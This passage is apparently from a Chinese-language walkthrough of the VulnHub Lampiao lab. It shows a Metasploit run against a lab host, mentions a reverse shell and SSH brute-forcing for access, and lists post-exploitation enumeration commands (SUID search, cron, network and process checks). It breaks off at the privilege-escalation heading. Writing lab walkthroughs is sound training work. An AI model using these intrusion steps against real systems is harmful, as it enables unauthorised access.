 ![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\21.jpg)

```shell
options
set rhosts 192.168.10.11
set rport 1898
run
```

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\22.jpg)

# 靶机内信息收集

首先这里可以两种登录，一直是通过`msf`反弹的`www-data`，一种是`ssh`爆破的`tiago`用户

使用`find`寻找具有SUID权限的文件，发现`sudo`，测试发现`sudo`没有可用

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\24.jpg)

切换之前`ssh`登录的，测试，也是没有`sudo`

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\25.jpg)

查看定时任务，网络状态、进程等等信息，最好可以上传`pspy64`进行检测

````shell
cat /etc/crontab
ls -l /etc/cron.d
````

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\26.jpg)

```shell
ss -antlp
ip add
```

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\27.jpg)

```shell
ps -aux
top
df -h
```

收集内核信息和操作系统信息

![](D:\stu\vulnhub\OSCP必刷靶场\lampiao靶场\pic\28.jpg)

# 提权
